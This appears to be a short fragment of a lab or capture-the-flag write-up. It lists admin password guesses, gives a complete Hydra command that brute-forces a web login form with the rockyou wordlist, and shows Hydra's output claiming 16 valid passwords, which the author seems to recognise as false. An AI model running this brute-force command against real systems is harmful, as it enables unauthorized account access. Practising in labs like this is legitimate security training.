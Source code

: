 that's not true, sadly ><
****
admin/123456
admin/123456789
admin/12345
admin/password
admin/iloveyou
admin/princess
admin/1234567
admin/rockyou
admin/12345678
admin/abc123
admin/nicole
admin/daniel
admin/babygirl
admin/monkey
admin/lovely
admin/jessica
****

`sudo hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.42.179 -s 10000 https-post-form "/:user=^USER^&pass=^PASS^:F=Login failed. Please try again." -o output_hydra2`

```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.42.179:10000/:user=^USER^&pass=^PASS^:F=Login failed. Please try again.
[10000][http-post-form] host: 10.10.42.179   login: admin   password: password
[10000][http-post-form] host: 10.10.42.179   login: admin   password: monkey
[10000][http-post-form] host: 10.10.42.179   login: admin   password: lovely
[10000][http-post-form] host: 10.10.42.179   login: admin   password: nicole
[10000][http-post-form] host: 10.10.42.179   login: admin   password: 123456
[10000][http-post-form] host: 10.10.42.179   login: admin   password: iloveyou
[10000][http-post-form] host: 10.10.42.179   login: admin   password: princess
[10000][http-post-form] host: 10.10.42.179   login: admin   password: 1234567
[10000][http-post-form] host: 10.10.42.179   login: admin   password: 12345678
[10000][http-post-form] host: 10.10.42.179   login: admin   password: babygirl
[10000][http-post-form] host: 10.10.42.179   login: admin   password: abc123
[10000][http-post-form] host: 10.10.42.179   login: admin   password: daniel
[10000][http-post-form] host: 10.10.42.179   login: admin   password: jessica
[10000][http-post-form] host: 10.10.42.179   login: admin   password: rockyou
[10000][http-post-form] host: 10.10.42.179   login: admin   password: 12345
[10000][http-post-form] host: 10.10.42.179   login: admin   password: 123456789
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-20 20:29:35
```